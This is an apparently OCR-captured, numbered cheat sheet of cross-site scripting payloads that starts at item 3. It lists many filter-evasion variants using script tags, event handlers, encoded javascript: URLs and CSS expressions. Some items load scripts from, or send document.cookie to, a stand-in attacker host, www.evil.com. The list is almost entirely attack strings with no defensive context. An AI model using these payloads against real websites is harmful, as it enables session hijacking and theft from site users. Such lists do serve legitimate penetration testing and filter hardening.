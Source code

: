 ```
3.<script  src="http://www.evil.com/cookie.php"></script>

4.<script>location.href="http://www.evil.com/cookies.php?cookie="+escape(document.cookie)"</script>

5.<scr<script>ipt>alert('xss');</scr</script>ipt>

6.<img src=liu.jpg onerror=alert(/xss/)/>

7.<style>@im\port'\ja\vasc\ript:alert(\"xss\")';</style>

8.<?echo('<src)'; echo('ipt>alert(\"xss\")';</script>');?>

9.<marquee><script>alert('xss')</script></marquee>

10.<IMG SRC=\"jav&#0x9;ascript:alert('xss');\">

11.<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>

12."><script>alert(1)</script>

13.<script src=http://www.evil.com/files.js></script>

14.</title><script>alert(/xss/)</script>

15.</textarea><script>alert(/xss)</script>

16.<IMG LOWSRC=\"javascript:alert('XSS')\">

17.<IMG DYNSRC=\"javascript:alert('XSS')\">

18.<font style='color:expression(alert(document.cookie))'>

19.');alert('XSS

20.<img src="javascript:alert('XSS')">

21.[url=javascript:alert('XSS');]click me[/url]

22.<body onunload="javascript:alert('XSS');">

23.<body onLoad="alert('XSS');"

24.[color=red' onmouseover="alert('XSS')"]mouse over[/color]

25."/></a></><img src=1.gif onerror=alert(1)>

26.window.alert("XSS");

27.<div style="x:expression((window==1)?":eval('r=1;alert(String.fromCharCode(83,83,83));'))">

28.<iframe<?php eval chr(11)?>onload=alert('XSS')></iframe>

29."><script alert(String.fromCharCode(88,83,83))</script>

30.'>><marquee><h1>XSS<h1></marquee>

31.'">><script>alert('xss')</script>

32.'">><marquee><h1>XSS</h1></marquee>

33.<META HTTP-EQUIV=\"refresh\" CONTENT=\"0;url=javascript:alert('XSS');\">

34.<META HTTP-EQUIV=\"refresh\"CONTENT=\"0;URL=http://;url=javascript:alert('XSS');\">
```